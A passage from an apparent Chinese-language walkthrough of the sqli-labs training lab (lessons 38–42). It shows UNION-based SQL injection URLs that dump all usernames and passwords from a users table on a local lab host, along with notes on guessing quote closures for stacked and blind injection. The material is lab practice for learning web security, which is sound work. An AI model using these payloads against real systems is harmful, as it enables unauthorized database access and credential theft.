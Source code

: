 ![image](https://user-images.githubusercontent.com/76896357/115109447-5982d280-9fa8-11eb-9f6a-b520f94179ea.png)

最后可以让用户名和密码一起查询

```
http://192.168.220.12/sqli/Less-38/?id=-1'%20union%20select%201,group_concat(username),group_concat(password)%20from%20security.users%20--+
```
![image](https://user-images.githubusercontent.com/76896357/115109613-6fdd5e00-9fa9-11eb-8f9c-5ae13832cc86.png)


## 39. STACK Query

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/115109519-c007f080-9fa8-11eb-8de3-58c68c6fb80f.png)

* 很显然是数字型注入，没有闭合方式
```
http://192.168.220.12/sqli/Less-39/?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20security.users%20 --+//用户名和密码一起爆
```
直接显示所有数据

![image](https://user-images.githubusercontent.com/76896357/115109585-40c6ec80-9fa9-11eb-8570-828bdb63e395.png)

## 40.堆叠
![image](https://user-images.githubusercontent.com/76896357/115110591-cc8f4780-9fae-11eb-9a97-55ea3314f164.png)

闭合方式是‘),注入方式同上

## 41. STACK QUERy 盲注
但还是有回显
```
http://192.168.220.12/sqli/Less-40/?id=-1%27)%20union%20select%201,2,3%20--+//猜闭合方式就可以了
```
* 猜测闭合方式

![image](https://user-images.githubusercontent.com/76896357/115109722-1164af80-9faa-11eb-855d-e1f811296b19.png)

一通乱猜，啥也没有，

就干脆认为是数字型注入，果然是

![image](https://user-images.githubusercontent.com/76896357/115109835-c7c89480-9faa-11eb-8a59-f0d54a7d4699.png)

剩下的就几乎一样了。。。

过了。。。

## 42. POSt型基于错误的字符型注入 
